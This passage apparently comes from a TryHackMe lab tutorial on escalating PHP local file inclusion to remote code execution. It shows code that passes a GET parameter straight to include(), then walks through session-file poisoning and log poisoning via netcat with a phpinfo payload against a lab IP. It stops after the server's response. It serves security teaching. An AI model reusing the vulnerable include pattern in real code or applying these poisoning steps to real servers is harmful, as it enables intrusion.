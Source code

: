 Sample Code

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

An attacker could exploit this vulnerability by injecting a PHP code into their session variable by using `<?php echo phpinfo(); ?>` in the page parameter.

![sessions.php with a basic phpinfo code](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/110472d2d2ae7b090b8242b3b1a3818e.png)

This code is then saved in the session file on the server. Subsequently, the attacker can use the LFI vulnerability to include this session file. Since session IDs are hashed, the ID can be found in the cookies section of your browser.

![Getting the value of the PHPSESSID](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/82474b4664ba1fd739c339861320174b.png)

Accessing the URL `sessions.php?page=/var/lib/php/sessions/sess_[sessionID]` will execute the injected PHP code in the session file. Note that you have to replace \[sessionID] with the value from your PHPSESSID cookie.

![Injected php code in the session file has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d335c5261b4cfa981521ffeb098a796c.png)

## LFI2RCE - Log Poisoning

***

Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.

For example, if an attacker sends a Netcat request to the vulnerable machine containing a PHP code:

Sample Request

```php
$ nc 10.10.172.219 80      
<?php echo phpinfo(); ?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.172.219.eu-west-1.compute.internal Port 80</address>
</body></html>
```
